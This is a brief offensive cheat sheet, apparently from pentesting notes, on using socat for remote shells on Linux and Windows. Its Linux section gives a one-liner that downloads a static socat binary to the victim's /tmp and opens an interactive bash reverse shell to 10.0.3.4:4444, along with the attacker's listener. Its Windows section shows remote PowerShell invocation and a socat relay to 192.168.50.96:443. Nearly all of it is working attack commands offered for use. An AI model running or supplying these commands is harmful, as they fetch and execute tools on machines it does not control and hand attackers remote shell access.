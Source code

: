 # Socat Linux/Windows

## Linux <a id="linux"></a>

In case socat is not installed on the victim :

* Download socat :

`wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444`

* and set up a Listener on the attacker machine :

``socat file:`tty`,raw,echo=0 tcp-listen:4444``

## Windows <a id="windows"></a>

* Upload socat, create session, setup powercat

 `PS C:\modif> Invoke-Command -ScriptBlock{Invoke-Command -FilePath \\Server\C$\sh443.ps1 $Remote_Host} $jm`

`[Remote-Host]: PS C:\Users\admin\Desktop\\socat-1.7.3.2-1-i686> .\socat.exe -d -d TCP-LISTEN:443 TCP:192.168.50.96:443`

